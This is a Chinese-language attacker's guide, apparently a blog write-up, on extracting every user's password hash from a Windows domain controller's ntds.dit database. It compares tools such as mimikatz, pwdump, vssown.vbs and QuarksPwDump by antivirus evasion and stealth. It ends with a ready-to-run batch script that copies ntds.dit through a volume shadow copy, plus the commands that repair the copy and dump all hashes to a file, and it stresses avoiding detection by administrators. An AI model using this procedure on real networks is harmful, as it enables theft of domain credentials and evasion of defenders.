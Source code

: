 # 导出当前域内所有用户hash的技术整理

0x00目标：
=====

导出当前域内所有用户的hash

0x01测试环境：
=====

```
域控：server2008 r2
杀毒软件：已安装*
域控权限：可使用net use远程登陆，不使用3389

```

0x02测试方法：
=====

（1）mimikatz：

```
hash数量：只能抓取登陆过的用户hash，无法抓取所有用户
免杀：需要免杀

```

（2）pwdump：

```
hash数量：无法抓取所有用户
免杀：需要免杀

```

（3）vssown.vbs + libesedb + NtdsXtract

```
hash数量：所有用户
免杀：不需要
优点：
    获得信息很全面，可获得以下信息：
    Record ID
    User name
    User principal name
    SAM Account name
    SAM Account type
    GUID
    SID
    When created
    When changed
    Account expires
    Password last set
    Last logon
    Last logon timestamp
    Bad password time
    Logon count
    Bad password count
    User Account Control
    Ancestors
    Password hashes
    Password history
    Supplemental credentials
    Member of

缺点：
    vssown.vbs使用后需要删除快照清理痕迹
    vssown.vbs偶尔会报错
    数据库巨大，下载回本地很麻烦
    libesedb + NtdsXtract环境搭建麻烦，目前网上中文的教程存在一些错误，下载链接也已失效，需要自行摸索
    用vssown.vbs复制出来的ntds.dit数据库无法使用QuarksPwDump.exe读取       

```

* * *

**_Tips:_**  
libesedb + NtdsXtract环境搭建的一点提示：

```
(download libesedb)
https://github.com/libyal/libesedb/releases/download/20150409/libesedb-experimental-20150409.tar.gz
tar zxvf libesedb-experimental-20150409.tar.gz
cd libesedb-20150409
./configure
make
cd esedbtools/
./esedbexport
(copy ntds.dit to ~/libesedb-20150409/esedbtools)
./esedbexport ./ntds.dit
(wait...)
mv ntds.dit.export/ ../../
（download ntdsxtract）
http://www.ntdsxtract.com/downloads/ntdsxtract/ntdsxtract_v1_0.zip
unzip ntdsxtract_v1_0.zip
cd NTDSXtract 1.0/
(move SYSTEM to '/root/SYSTEM')
(get passwordhashes )
python dsusers.py ../ntds.dit.export/datatable.3 ../ntds.dit.export/link_table.5 --passwordhashes '/root/SYSTEM'

```

* * *

（4）ntdsutil.exe + QuarksPwDump.exe

```
hash数量：所有用户 
免杀：QuarksPwDump.exe需要免杀 
优点： 
    获得信息很全面 QuarksPwDump.exe可在windows下使用，读取hash值的操作简便快捷
缺点： 
    ntdsutil.exe使用后需要删除快照清理痕迹 ntdsutil.exe偶尔会报错 巨大的数据库，QuarksPwDump.exe读取偶尔会报错 server2003的shell下无法使用

```

0x03实际测试：
=====

*   gethashes.exe：没有源码，忽略
*   mimikatz：无法抓出所有用户hash，本机管理员口令也无法导出
*   pwdump：抓取数量不足
*   vssown.vbs + libesedb + NtdsXtract：成功，耗时3天+
*   ntdsutil.exe + QuarksPwDump.exe：ntdsutil.exe报错，失败

0x04分析：
=====

5种方法唯一成功的是`vssown.vbs + libesedb + NtdsXtract`，但是耗时太久，操作麻烦，下载数据库容易暴露，`vssown.vbs`备份的信息容易被管理员发现

其他方法中可取的地方：`vssown.vbs`复制数据库的方法很是巧妙，但存在一些不足，配合域控的at命令执行较为麻烦；QuarksPwDump.exe可在windows下直接使用，免去读取数据库的等待，并且`QuarksPwDump`可获得源码，能够配合实际使用做修改。

那么大胆设想一下：如果使用`QuarksPwDump.exe`在域控上直接读取`ntds.dit`岂不是最好

0x05改进：
=====

（1）分析`vssown.vbs`的复制办法，找到一种更好的解决办法，改用`ShadowCopy`实现`ntds.dit`的复制 （2）对`QuarksPwDump`的改造，实现命令行下的自动读取及导出信息

* * *

**_Tips：_**

```
ShadowCopy 是一款增强型的免费文件复制工具，由于使用了微软卷影副本（`Volume Shadow Copy`）技术，它能够复制被锁定的文件或者被其他程序打开的文件，

因此只要是硬盘的上的文件，即使正被程序占用，`ShadowCopy` 都可以拷贝出来。

```

0x06最终方案：
=====

（1）使用ShadowCopy的命令行版，编写bat实现拷贝ntds.dit至当前目录

```
setlocal
if NOT "%CALLBACK_SCRIPT%"=="" goto :IS_CALLBACK
set SOURCE_DRIVE_LETTER=%SystemDrive%
set SOURCE_RELATIVE_PATH=\windows\ntds\ntds.dit
set DESTINATION_PATH=%~dp0
@echo ...Determine the scripts to be executed/generated...
set CALLBACK_SCRIPT=%~dpnx0
set TEMP_GENERATED_SCRIPT=GeneratedVarsTempScript.cmd
@echo ...Creating the shadow copy...
"%~dp0vsshadow.exe" -script=%TEMP_GENERATED_SCRIPT% -exec="%CALLBACK_SCRIPT%" %SOURCE_DRIVE_LETTER%
del /f %TEMP_GENERATED_SCRIPT%
@goto :EOF
:IS_CALLBACK
setlocal
@echo ...Obtaining the shadow copy device name...
call %TEMP_GENERATED_SCRIPT%
@echo ...Copying from the shadow copy to the destination path...
copy "%SHADOW_DEVICE_1%\%SOURCE_RELATIVE_PATH%" %DESTINATION_PATH%

```

参考链接： http://blogs.msdn.com/b/adioltean/archive/2005/01/05/346793.aspx

（2）使用QuarksPwDump直接读取信息并将结果导出至文件，先执行

```
esentutl /p /o ntds.dit

```

修复复制出来的数据库

```
QuarksPwDump.exe -dhb -hist -nt ntds.dit -o log.txt

```

读取并导出。

注：实际使用时ntds.dit和log.txt需要加绝对路径

* * *

**_Tips：_**

```
QuarksPwDump.exe：Dump various types of Windows credentials without injecting in any process.
源码下载链接，vs2010直接编译即可
https://github.com/quarkslab/quarkspwdump

```

0x07小结：
=====

ShadowCopy+QuarksPwDump：

```
hash数量：所有用户
免杀：不需要
优点：
    获得信息全面
    bat一键搞定，简单高效
    无需下载ntds.dit，隐蔽性高
```